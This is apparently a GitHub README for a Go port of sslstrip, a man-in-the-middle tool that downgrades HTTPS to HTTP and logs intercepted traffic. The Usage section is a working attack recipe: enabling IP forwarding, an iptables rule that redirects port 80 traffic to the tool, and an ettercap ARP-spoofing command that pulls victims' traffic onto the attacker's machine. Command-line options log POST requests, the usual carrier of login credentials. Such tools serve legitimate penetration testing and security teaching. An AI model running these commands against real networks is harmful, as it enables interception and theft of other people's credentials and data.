Sslstrip
======
This is a tool that implements Moxie Marlinspike's SSL stripping attacks, written in Go.
Inspired by https://github.com/moxie0/sslstrip.

Requirements
------------------------------
The only requirment is Go. There are no further dependencies, only the standard library of the language.
We have used Go version 1.9.2 but it should work fine with other versions as well. Please, open issue if
you encounter a problem.

Installing
----------
  ```bash
  $ # clone the repo in your $GOPATH/src/sslstrip
  $ cd $GOPATH/src/sslstrip/cli
  $ go build main.go
  $ ./main -h
  Usage of ./main:
  -filename string
    	the output log file or empty for stdout
  -log-response
    	log responses
  -port int
    	port to listen on (default 8000)
  -post-only
    	log only POST requests
  ```

Usage
-----
1. Flip your machine into forwarding mode (as root):

```$ echo "1" > /proc/sys/net/ipv4/ip_forward```

2. Setup iptables to intercept HTTP requests (as root):

```$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>```
     
3. Run an arpspoof attack to redirect traffic to your machine. For example with [ettercap](https://www.ettercap-project.org/index.html)

```$ ettercap -q -T -M arp```
     
4. Run sslstrip with the command-line options you'd like (see above).

Contributing
------------

If you want to contribute feel free to send a pull request.

Also, if you found a bug or some wrong information in these pages you can open an issue.

License
-------

This program is provided under an MIT open source license, read the [LICENSE](https://github.com/nvlbg/sslstrip/blob/master/LICENSE) file for details.
